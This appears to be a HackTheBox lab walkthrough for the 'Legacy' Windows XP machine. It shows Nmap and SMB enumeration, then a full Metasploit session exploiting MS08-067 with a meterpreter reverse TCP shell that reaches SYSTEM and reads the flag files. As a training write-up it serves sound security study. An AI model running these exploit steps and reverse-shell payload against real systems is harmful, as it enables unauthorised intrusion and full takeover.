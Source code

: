 # HackTheBox Legacy Walkthrough

This is a Walkthrough how I get the user and root flag on the machine. All my scan results are stored in the [attachments](./attachments) folder.

achine details:

- Machine Name: Legacy
- IP address: 10.10.10.4
- OS: Windows
- Difficulty: Easy

## Scanning

In this table I summarize the open ports and protocols and the XML version of the full results.

| Scan Type         | Open Ports/Protocols | XML Output File                                |
|-------------------|----------------------|------------------------------------------------|
| Nmap IP Scan      | 1 (ICMP)             | [ip_legacy.xml](./attachments/ip_legacy.xml)   |
| Nmap TCP SYN Scan | 139, 445             | [tcp_legacy.xml](./attachments/tcp_legacy.xml) |
| Nmap UDP Scan     | 137                  | [udp_legacy.xml](./attachments/udp_legacy.xml) |

## Enumeration

### OS Enumeration

The Nmap OS detection found 94% match for Microsoft Windows XP SP3.

### SMB Enumeration

```bash
root@Kali:/# msfconsole

               .;lxO0KXXXK0Oxl:.
           ,o0WMMMMMMMMMMMMMMMMMMKd,
        'xNMMMMMMMMMMMMMMMMMMMMMMMMMWx,
      :KMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMK:
    .KMMMMMMMMMMMMMMMWNNNWMMMMMMMMMMMMMMMX,
   lWMMMMMMMMMMMXd:..     ..;dKMMMMMMMMMMMMo
  xMMMMMMMMMMWd.               .oNMMMMMMMMMMk
 oMMMMMMMMMMx.                    dMMMMMMMMMMx
.WMMMMMMMMM:                       :MMMMMMMMMM,
xMMMMMMMMMo                         lMMMMMMMMMO
NMMMMMMMMW                    ,cccccoMMMMMMMMMWlccccc;
MMMMMMMMX                     ;KMMMMMMMMMMMMMMMMMMX:
NMMMMMMMMW.                      ;KMMMMMMMMMMMMMMX:
xMMMMMMMMMd                        ,0MMMMMMMMMMK;
.WMMMMMMMMMc                         'OMMMMMM0,
 lMMMMMMMMMMk.                         .kMMO'
  dMMMMMMMMMMWd'                         ..
   cWMMMMMMMMMMMNxc'.                ##########
    .0MMMMMMMMMMMMMMMMWc            #+#    #+#
      ;0MMMMMMMMMMMMMMMo.          +:+
        .dNMMMMMMMMMMMMo          +#++:++#+
           'oOWMMMMMMMMo                +:+
               .,cdkO0K;        :+:    :+:
                                :::::::+:
                      Metasploit

       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2048 exploits - 1105 auxiliary - 344 post       ]
+ -- --=[ 566 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

etasploit tip: Open an interactive Ruby terminal with irb

msf5 > use auxiliary/scanner/smb/smb_version
msf5 auxiliary(scanner/smb/smb_version) > show options

odule options (auxiliary/scanner/smb/smb_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads (max one per host)

msf5 auxiliary(scanner/smb/smb_version) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
msf5 auxiliary(scanner/smb/smb_version) > exploit

[+] 10.10.10.4:445        - Host is running Windows XP SP3 (language:English) (name:LEGACY) (workgroup:HTB ) (signatures:optional)
[*] 10.10.10.4:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Searching Vulnerabilities

I google for [smb windows xp sp3 exploit](https://www.google.com/search?q=smb+windows+xp+sp3+exploit&oq=smb+xp+sp&aqs=chrome.1.69i57j0l7.6303j0j7&sourceid=chrome&ie=UTF-8). The first finding is a Metasploit module for [MS08-067 Microsoft Server Service Relative Path Stack Corruption](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi)

## Exploit

I use the found module with staged meterpreter reverse TCP shell. The meterpreter session already has SYSTEM privilege so the only think left is to find the user and root flag on the machine.

```bash
msf5 auxiliary(scanner/smb/smb_version) > use exploit/windows/smb/ms08_067_netapi
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms08_067_netapi) > show options

odule options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.5      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf5 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > set LHOST 10.10.14.23
LHOST => 10.10.14.23
msf5 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.14.23:4444
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (176195 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.23:4444 -> 10.10.10.4:1031) at 2020-08-20 19:22:30 +0000

meterpreter > pwd
C:\WINDOWS\system32
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > cat C:\\Documents\ and\ Settings\\john\\Desktop\\user.txt
e69af0e4f443de7e36876fda4ec7644f
meterpreter >
meterpreter > cat C:\\Documents\ and\ Settings\\Administrator\\Desktop\\root.txt
993442d258b0e0ec917cae9e695d5713
meterpreter >
```

